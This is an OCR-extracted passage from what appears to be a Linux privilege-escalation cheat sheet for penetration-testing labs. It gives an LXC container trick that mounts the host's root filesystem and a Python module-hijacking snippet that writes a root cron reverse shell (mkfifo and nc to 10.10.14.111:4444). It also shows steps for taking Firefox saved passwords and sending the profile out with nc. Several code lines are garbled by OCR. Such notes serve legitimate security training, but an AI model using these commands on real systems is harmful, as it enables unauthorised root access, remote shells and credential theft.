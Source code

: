 13.6 lxc list to view machine

13.7 Mount hard drive to the machine
```
lxc config device add privesc host-root disk source=/ path=/mnt/root/
```
13.8 Start the container
```
lxc start privesc
```
13.9 lxc exec privesc /bin/sh

Reference Machine - Calamity


14. Module Hijacking

If abc.py script is importing some module from def.py and if we have write access to def.py we can perform a Module Hijacking.
example,
```
shell = ‘’'
* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|n
10.10.14.111 4444 >/tmp/f
‘’'
f =open('/etc/crontab, ‘a’)
f.write(shell)
f.close()
```


15. Inspecting Mozilla Firefox Profile

Check for .mozilla folder.

Gain saved credentials using tools like

firefox_decrypt - https://github.com/unode/firefox_decrypt
firepwd - https://github.com/lclevy/firepwd
Transfer files as
```
cd /tmp
zip -r mozilla.zip ~/.mozilla
nc x.x.x.x 1234 < mozilla.zip
```

16. Linux Capabilities
For the purpose of performing permission checks, traditional UNIX implementations distinguish two categories of processes: privileged processes (whose effective user ID
is 0, referred to as superuser or root) & unprivileged processes (whose effective UID is nonzero). Privileged processes bypass all kernel permission checks, while unprivileged processes are subject to full permission checking based on the process's credentials (usually: effective UID, effective GID, and supplementary group list).

How to detect:
```
getcap -r / 2>/dev/null
```
If you find ep (effective and permitted) binary
